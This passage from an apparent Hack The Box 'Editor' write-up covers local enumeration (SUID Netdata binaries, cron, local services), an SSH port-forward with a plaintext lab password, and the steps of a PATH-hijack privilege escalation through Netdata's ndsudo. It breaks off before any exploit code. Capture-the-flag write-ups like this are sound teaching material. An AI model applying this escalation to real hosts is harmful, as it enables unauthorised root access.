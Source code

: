 

- Netdata SUID binaries (`ndsudo`, `nvme`, `plugins.d/*`) with capabilities like `cap_dac_read_search` and `cap_sys_ptrace` represent potential vectors for root escalation.

---
### Cron

```bash
ls -la /etc/cron*
crontab -l
```

- `/etc/cron.daily/tomcat9` exists; sources `/etc/default/tomcat9`.
    
- Oliver has no personal crontab; cron not directly exploitable.
    

---
### Local Services

```bash
netstat -lnupt
```

- MySQL: 127.0.0.1:3306
    
- Netdata: 127.0.0.1:19999 ( web interface for Netdata, may allow RCE if misconfigured)

#### Portforward netdata:

```shell
ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80
Pass: theEd1t0rTeam99
```

Access netdata dashboard: http://127.0.0.1:19999

![editor_6](https://gianlucabassani.github.io/assets/editor/htb_editor_6.png)

- Warning indicates the version is outdated and vulnerable.

- Guide for exploiting ndsudo:  https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93


STEPS:

1. Place an executable with a name that is on `ndsudo`’s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable)

---

### Netdata `ndsudo` Exploit

1. Create malicious binary `nvme.c` on attacker machine:
    